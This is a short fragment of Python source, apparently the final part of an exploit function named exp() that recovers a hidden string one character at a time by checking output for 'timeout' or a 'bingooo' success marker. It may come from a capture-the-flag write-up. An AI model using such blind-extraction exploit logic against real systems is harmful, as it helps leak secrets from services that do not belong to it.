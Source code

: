 ```
            output = str(res.getvalue())
            if "timeout" in output:
                continue
            if c == "$":
                Flag = False
                break
            if "bingooo" in output:
                data += c
                break
        sys.stdout = ori_stdout
        if Flag:
            print(data, end="\r")
        else:
            print(data)

if __name__ == "__main__":
    exp()
```

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44